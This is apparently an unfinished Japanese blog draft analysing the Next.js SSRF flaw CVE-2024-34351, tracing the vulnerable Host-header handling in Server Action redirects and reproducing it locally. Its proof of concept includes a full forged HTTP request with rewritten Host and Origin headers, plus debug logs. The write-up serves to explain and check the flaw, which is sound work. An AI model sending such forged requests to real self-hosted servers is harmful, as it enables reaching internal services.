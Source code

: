 ```yaml
---
title: "Next.jsのSSRF脆弱性 CVE-2024-34351"
emoji: "⚠️"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["react", "nextjs"]
published: false
---
```


Next.jsで**SSRF**（=Server Side Request Forgery）の脆弱性が発覚したことが話題になったので、調査した内容をまとめておこうと思います。対象の脆弱性は以下です。

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-34351

https://github.com/vercel/next.js/security/advisories/GHSA-fr5h-rqp8-mj6g

## 脆弱性の概要

SSRF脆弱性は本来到達できないサーバーに対して、公開されてるサーバーを経由してアクセスすることができてしまう脆弱性です。

https://blog.tokumaru.org/2018/12/introduction-to-ssrf-server-side-request-forgery.html

今回のNext.jsの脆弱性はhttpヘッダーの`Host`を書き換えることで、self hostingなNext.jsサーバーからhttpリクエストを送信できてしまうというものです。これは、外部には公開してない内部APIに対してリクエストを送信できる可能性も含まれます。

この脆弱性は以下の条件を満たした時に成立します。

- Next.jsをself hostingで運用している
- Next.jsアプリケーションがServer Actionsを利用している
- Server Actionが`redirect()`を`/`から始まるパスで呼び出している

これらの条件を満たす時に、SSRF攻撃が成り立つ可能性があります。

### 最新バージョンでの状況

> There are no official workarounds for this vulnerability. We recommend upgrading to Next.js 14.1.1.

とある通り、本脆弱性は`v14.1.1`ですでに解消されているとされています。ただし、カスタムサーバー（expressやfastify）を利用している場合、後述する環境変数`__NEXT_PRIVATE_HOST`を設定しないと**この脆弱性が解消してない可能性があります**。

:::message alert
実装を確認した限りカスタムサーバーでは解消してない可能性が高いですが、筆者は未検証で実装を元に述べているので、これらの条件が当てはまる方は自身で脆弱性の有無を検証することをお勧めします。
:::

## 脆弱性の原因実装と詳細

脆弱性が解消されたとされるのがv14.1.1なので、v14.1.0時点での実装を元に説明します。今回の脆弱性は`redirect()`を呼び出した時の処理に起因しています。

`createRedirectRenderResult`は命名の通り、`redirect()`を呼び出した時に返されるRSC Payloadを生成する関数です。

https://github.com/vercel/next.js/blob/v14.1.0/packages/next/src/server/app-render/action-handler.ts#L147C16-L153

この関数の中でリクエストオブジェクトの`Host`を参照し、`fetchUrl`を生成しています。

https://github.com/vercel/next.js/blob/v14.1.0/packages/next/src/server/app-render/action-handler.ts#L160-L163

そしてそれをそのまま、`fetch`の引数に利用しています。

https://github.com/vercel/next.js/blob/v14.1.0/packages/next/src/server/app-render/action-handler.ts#L183-L190

つまり、`Host`を書き換えればこのフォーマットに沿ったURLを生成することができ、任意のサーバーにリクエストを送信することができてしまうのです。ただし、上記実装ではHEADリクエストが成功しないとGETリクエストに進まないので、v14.1.0時点では**HEADリクエストのみが対象**となります。

### 実際に攻撃が成り立つのかlocalhostで試してみる

実際に筆者はこの挙動を確認すべく、v14.1.0のNext.jsをbuildしてform submit時のリクエストを元に改ざんし攻撃を試みたところ、`Host`と`Origin`は一致してる必要があるため`Origin`も修正する必要がありました。ただ、この2つを書き換えれば実際にリクエストを発行している様子が観察されました。

:::details 攻撃http request
実際に画面からformをsubmitした時のリクエスト情報をコピーし、`Host`と`Origin`を書き換えたものです。
```http
POST http://localhost:3000/ HTTP/1.1
Accept: text/x-component
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: keep-alive
Content-Length: 279
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBxBctGejLCXmkZbu
Host: localhost:9999
Next-Action: 2436a10b19c8cb512110aa93eaeb1eedad656714
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Origin: http://localhost:9999
Referer: http://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"

------WebKitFormBoundaryBxBctGejLCXmkZbu
Content-Disposition: form-data; name="1_$ACTION_ID_2436a10b19c8cb512110aa93eaeb1eedad656714"


------WebKitFormBoundaryBxBctGejLCXmkZbu
Content-Disposition: form-data; name="0"

["$K1"]
------WebKitFormBoundaryBxBctGejLCXmkZbu--
```
:::

`createRedirectRenderResult`内に以下のようなdebugコードを追加して、consoleの様子も確認しました。

```diff
  const fetchUrl = new URL(`${proto}://${host}${basePath}${redirectUrl}`)
+ console.log(">>> fetchUrl", fetchUrl);
```

```diff
  const headResponse = await fetch(fetchUrl, {
    method: 'HEAD',
    headers: forwardedHeaders,
    next: {
      // @ts-ignore
      internal: 1,
    },
  })
+   .catch((err) => {
+     console.error(">>> HEAD Request error", err);
+     throw err;
+   });
```

攻撃httpリクエストを送信すると以下のようなログが出力されました。

```text
>>> fetchUrl URL {
  href: 'http://localhost:9999/?test=1',
  origin: 'http://localhost:9999',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'localhost:9999',
  hostname: 'localhost',
  port: '9999',
  pathname: '/',
  search: '?test=1',
  searchParams: URLSearchParams { 'test' => '1' },
  hash: ''
}
>>> HEAD Request error TypeError: fetch failed
    at Object.fetch (node:internal/deps/undici/undici:11730:11)
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
    at async globalThis.fetch (/Users/satouakifumi/work/git/sandbox/nextjs-debug/.next/server/chunks/535.js:1:123496)
    ...
```

TBW

## 脆弱性の原因となった箇所の周辺実装

TBW

### Server Actions+redirectの挙動

